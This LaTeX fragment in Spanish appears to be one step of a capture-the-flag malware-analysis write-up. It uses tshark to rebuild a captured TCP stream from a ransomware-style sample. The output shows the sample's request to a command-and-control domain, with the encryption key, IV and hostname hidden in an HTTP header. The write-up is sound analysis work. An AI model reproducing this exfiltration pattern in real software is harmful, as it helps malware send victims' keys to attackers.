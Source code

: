 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsubsection*{Paso 11. Petición completa al servidor de mando (C2)}
\begin{comando}{/home/kali/Downloads/retosRecuperacion/Reversing CCN-Cry}
tshark -r incident-a1000032.pcapng -q -z follow,tcp,ascii,1
\end{comando}
\begin{tcolorbox}[enhanced, breakable, colback=gray!3, colframe=gray!35, boxrule=0.3pt, arc=1pt, left=4pt, right=4pt, top=2pt, bottom=2pt, fonttitle=\sffamily\scriptsize\bfseries, coltitle=black!70, colbacktitle=gray!10, title={Qué hace cada parte}, attach title to upper, before skip=2pt, after skip=4pt, fontupper=\small]
\par{\renewcommand{\arraystretch}{1.12}\begin{tabularx}{\linewidth}{@{}>{\raggedright\arraybackslash}p{0.33\linewidth}>{\raggedright\arraybackslash}X@{}}
\texttt{-z follow,\allowbreak{}tcp,\allowbreak{}ascii,\allowbreak{}1} & reconstruye la conversación TCP número 1 en texto (como "Follow TCP Stream" de Wireshark) \\
\end{tabularx}}
\end{tcolorbox}
\begin{salida}{Debe aparecer}
Running as user "root" and group "root". This could be dangerous.

===================================================================
Follow: tcp,ascii
Filter: tcp.stream eq 1
Node 0: 192.168.1.41:45988
Node 1: 192.168.1.37:8080
121
GET /user.php HTTP/1.0
Host: www.aarkaposleeqaasssf.tk
Content-type: gAu,UovL8;,B2fOT1xRZa?r3wpvD856r:B;?ShTiD:oat12


===================================================================
\end{salida}
\begin{nota}Formato \texttt{32 caracteres : 8 caracteres : hostname}: clave, IV y nombre del equipo.\end{nota}
\end{document}
